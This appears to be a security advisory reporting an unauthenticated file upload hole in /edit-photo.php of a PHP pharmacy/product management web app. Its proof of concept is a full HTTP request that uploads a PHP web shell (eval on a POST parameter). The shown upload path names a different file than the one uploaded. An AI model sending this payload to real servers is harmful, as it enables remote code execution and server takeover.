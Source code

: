 The Web-based Pharmacy Product Management System has a file upload vulnerability, which can be used by an attacker to upload malicious files to the server without authentication, thereby damaging or controlling the server.



Source code address：https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html



The vulnerability is located in the /edit-photo.php file. In line 14, we start to check the format of the avatar parameter to see if it belongs to the types in line 15. We can see that there are no restrictions on file suffixes or anything else. Execute and save to the uploadImage/ directory if the requirements of the avatar parameters are met.

![image-20250407114256737](images/image-20250407114256737.png)



Vulnerability verification：

```
POST /product_expiry/edit-photo.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 308
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary790G2tc8VtgtAR51
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/product_expiry/edit-photo.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary790G2tc8VtgtAR51
Content-Disposition: form-data; name="avatar"; filename="kru.php"
Content-Type: image/jpeg

<?php
eval($_POST["pass1"]);

------WebKitFormBoundary790G2tc8VtgtAR51
Content-Disposition: form-data; name="btnsave"


------WebKitFormBoundary790G2tc8VtgtAR51--

```

![image-20250407113948748](images/image-20250407113948748.png)



The path after the file is uploaded is： http://192.168.80.152/product_expiry/uploadImage/123.php



![image-20250407114002569](images/image-20250407114002569.png)















